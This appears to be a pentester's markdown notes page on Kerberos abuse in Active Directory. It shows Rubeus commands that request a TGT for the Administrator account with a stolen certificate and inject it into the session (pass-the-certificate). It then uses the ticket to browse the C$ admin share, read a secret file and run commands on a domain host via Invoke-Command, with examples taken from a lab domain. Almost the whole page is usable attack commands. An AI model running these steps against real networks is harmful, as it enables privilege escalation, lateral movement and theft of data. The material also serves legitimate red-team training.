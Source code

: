 
### Obtaining the TGT

Using the `askTGT` feature of `Rubeus`
using the `/ptt` apply the received TGT to the current sessions

Pass-the-certificate example:
```powershell
# usage
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
# example
.\Rubeus.exe asktgt /user:Administrator /certificate:<cert.pfx path> /password:<pfx password> /ptt
```

![[Pasted image 20230111104959.png]]
The TGT is automatically saved in your environment (thanks to /ptt in rubeus).

### Using the TGT

##### List your current session TGTs
```powershell
klist
```
![[Pasted image 20230111135429.png]]

##### Delete all your session TGTs
```powershell
klist purge
```
![[Pasted image 20230111135456.png]]

##### List files on remote system
```powershell
dir \\<computer name>\<drive>\<path>
```
![[Pasted image 20230111105353.png]]

##### Print file on remote system
```powershell
type \\<computer name>\<drive>\<filepath>
# example
type \\WIN-8DRJKS8Q1T9.labad.fr\C$\Users\Administrator\Desktop\SecretFile.txt

```
![[Pasted image 20230111140015.png]]

##### Command execution
```powershell
Invoke-Command -computername <computer name> -ScriptBlock {<command>}
# example
Invoke-Command -computername win-8drjks8q1t9.labad.fr -ScriptBlock {whoami}
```
![[Pasted image 20230111135136.png]]
